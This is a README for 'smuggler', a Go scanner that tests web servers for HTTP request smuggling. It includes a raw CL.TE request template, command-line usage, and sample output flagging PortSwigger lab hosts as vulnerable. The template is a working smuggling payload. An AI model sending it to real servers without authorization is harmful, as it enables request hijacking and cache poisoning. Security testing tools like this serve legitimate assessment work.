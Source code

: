 # smuggler
net/http makes it very challenging to send a request with malformed or duplicate headers. So for this application, it is more practical to parse a template and write it to a socket. This makes it simple to add your own payloads and may be useful for other things than request smuggling for ease of creating templates by copy/pasting from Burp.  
  
I took some ideas from this article https://www.synopsys.com/blogs/software-security/fuzzing-test-cases-not-all-random/ about the structure of the program. Separating the application into distinct sections being poet, courier, and oracle help make the code more reusable.



Templates:
```
POST {{.Path}} HTTP/1.1
Host: {{.Host}}
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G

```

Usage:
```
$ ./smuggler -h
Usage of ./smuggler:
  -proxy string
    	Set the Golang proxy, for example: http://example.com:8080
  -threads int
    	Number of concurrent targets to test (default 5)
  -timeout int
    	Timeout (default 10)
  -u string
    	Target URL
  -urls string
    	List of URLs
```

Example test on Portswigger labs:
```
$ ./smuggler -urls targets.test 
https://ac291f541e8bb695c0338e2700cd00fb.web-security-academy.net/ is vulnerable
https://ac761f071e92b6b8c0448fee001c0096.web-security-academy.net/ is vulnerable
https://acb71f6e1f079d25c08104be00290033.web-security-academy.net/ is vulnerable
```
